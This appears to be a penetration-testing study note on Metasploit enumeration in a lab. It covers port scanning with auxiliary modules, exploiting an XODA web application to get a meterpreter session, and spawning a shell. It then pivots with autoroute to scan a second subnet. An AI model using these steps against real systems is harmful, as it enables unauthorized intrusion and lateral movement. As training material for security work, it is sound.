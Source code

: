 # iii - Enumeration

### **Auxiliary Modules**

* Auxiliary modules are used to perform functionality like scanning, discovery and fuzzing.
* We can use auxiliary modules to perform both TCP & UDP port scanning as well as enumerating information from services like FTP, SSH, HTTP, etc.
* Auxiliary modules can be used during the information gathering phase of a penetration test as well as during the post exploitation phase.
* We can also use auxiliary modules to discover hosts and perform port scanning on a different network subnet after we have obtained initial access on a target system.

### **Lab Infrastructure**

* Our objective is to utilize auxiliary modules to discover open ports on our first target?
* The next step will involve exploiting the service running on the target in order to obtain a foothold.
* We will then utilize our foothold to access other systems on a different network subnet (pivoting).
* We will then utilize auxiliary modules to scan of open ports on the second target.

<figure><img src="../../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

## **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# systemctl start postgresql && msfconsole
db_status # check if postgresql db is running.
workspace -a port_scan # create a new workspace for this session.
search portscan # search for the portscan auxiliary module or you can use the "db_nmap".
use 5 # select the tcp portscan.
set RHOSTS $ip
set PORTS 1-10000 # ports range
run

# in this case we just have a cmd line access, so we cant use a browser to view the web server, but we can use "curl" utility instead.
curl <targetIP> #Download the webpage (if the host is hosting one).

# we discovered the web server is running "xoda"
msf5 > search xoda 
msf5 > use 0
options
set RHOSTS $ip
set TARGETURI / # setting the URI to the root.
exploit # we get a meterpreter session.
sysinfo

# Now we want to scan the 2nd victim pc's ports, so we need to find out the private network ip addr (subnet) that the target victim pc is a part of.
shell # inorder to do that, we spawn a shell session.
/bin/bash -i # get a bash shell.
ifconfig # we saw another ip subnet on interface (eth1).
ctrl + z # exit the shell session, take note of the ip addr.

# back to our meterpreter session.
# we can add a route to the victim2 ip subnet from our meterpreter session.
# run autoroute -s 192.113.124.2 --> we just add a route to the target host PC.
msf5 > run autoroute -s <subnetTargetIP> #Route the traffic to the subnet's target IP address of the first target previously exploited

background # put the running session in background.
sessions # view current sessions.

# search portscan
use 5
set RHOSTS $ip_victim2 # because we already added a route to this network, we are simply performing the scan through "Victim1" PC.
run
# we can now scan other subnets on a network.

search udp-sweep # a module for udp scans.
use auxiliary/scanner/discovery/udp_sweep
set RHOSTS $ip_victim1 or $ip_victim2
```
{% endcode %}



